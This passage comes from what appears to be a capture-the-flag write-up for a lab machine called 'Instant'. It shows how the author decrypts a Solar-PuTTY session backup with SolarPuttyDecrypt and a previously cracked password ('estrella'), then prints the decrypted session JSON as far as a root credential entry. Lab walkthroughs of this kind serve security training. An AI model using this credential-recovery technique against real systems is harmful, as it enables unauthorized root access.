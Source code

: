 To decrypt this file we will use `SolarPuttyDecrypt`, that only works in windows.

First we clone it in out linux machine.

```
git clone https://github.com/VoidSec/SolarPuttyDecrypt
cd SolarPuttyDecrypt_v1
```

Start a `HTTP` server with python.

```
python3 -m http.server 80
```

Y lo descargamos en una máquina virtual de windows (tanto el script como el archivo `.dat`).

And download it in a windows virtual machine (both the script and the `.dat` file).

![python server dat](../../img/Instant/python-server-dat.png)

We can now execute `SolarPuttyDecrypt.exe` with the file `sessions-backup.dat` as first argument and the decrypt password as the second one.

We will try the password we found previously cracking the hashes `estrella`.

```
C:\Users\delo\Desktop\SolarPuttyDecrypt_v1>.\SolarPuttyDecrypt.exe sessions-backup.dat estrella
```

```json
{
  "Sessions": [
    {
      "Id": "066894ee-635c-4578-86d0-d36d4838115b",
      "Ip": "10.10.11.37",
      "Port": 22,
      "ConnectionType": 1,
      "SessionName": "Instant",
      "Authentication": 0,
      "CredentialsID": "452ed919-530e-419b-b721-da76cbe8ed04",
      "AuthenticateScript": "00000000-0000-0000-0000-000000000000",
      "LastTimeOpen": "0001-01-01T00:00:00",
      "OpenCounter": 1,
      "SerialLine": null,
      "Speed": 0,
      "Color": "#FF176998",
      "TelnetConnectionWaitSeconds": 1,
      "LoggingEnabled": false,
      "RemoteDirectory": ""
    }
  ],
  "Credentials": [
    {
      "Id": "452ed919-530e-419b-b721-da76cbe8ed04",
      "CredentialsName": "instant-root",
      "Username": "root",
```